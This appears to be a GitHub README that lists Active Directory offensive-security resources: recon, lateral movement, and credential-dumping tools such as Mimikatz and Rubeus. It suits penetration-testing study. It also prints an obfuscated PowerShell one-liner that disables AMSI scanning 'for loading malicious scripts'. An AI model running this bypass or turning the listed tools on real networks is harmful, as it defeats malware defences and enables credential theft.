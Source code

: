 # AD-Security-Resources


<H2>Huge list of AD security resources available below :</H2>
  https://adsecurity.org/
  https://www.harmj0y.net/
  https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html
  https://beta.hackndo.com/


<H2> Setting up active directory lab : <H2>
  <p>  https://github.com/outflanknl/Invoke-ADLabDeployer </p>



<H2> Bypassing Powershell execution policy issues : </H2>
<h3>Github links - AMSI Bypass for loading malicious scripts: <h3> 
  https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell
<h3> Something that works quickly </h3>
  sETItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE') ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL)."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ))."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )

<H2> Recon of active directory objects :</h2>
-> PowerView / Powersploit :
  https://github.com/PowerShellMafia/PowerSploit

-> AD Module :
  https://github.com/samratashok/ADModule

-> Bloodhound
  https://github.com/BloodHoundAD/SharpHound
  https://github.com/BloodHoundAD/BloodHound


==> Lateral Movement Automation :
  https://github.com/GoFetchAD/GoFetch

<H2> Credential Dumping for all attacks (PTH, Kerberoasting, Golden Ticket Attack, Silver Ticket Attack, Skeleton Key Attack:
-> Mimikatz :
  https://github.com/gentilkiwi/mimikatz

-> Spraykatz - Credentials gathering tool automating remote procdump and parse of lsass process
  https://github.com/aas-n/spraykatz

-> Mimikittenz - Reading credentians from process :
  https://github.com/putterpanda/mimikittenz

-> Benjamin Delpy's Kekeo 
  https://github.com/gentilkiwi/kekeo/

-> Vincent LE TOUX's MakeMeEnterpriseAdmin
  https://github.com/vletoux/MakeMeEnterpriseAdmin

-> Rubeus :
  https://github.com/GhostPack/Rubeus

<H2> Pingcastle - AD Security :
  https://github.com/vletoux/pingcastle



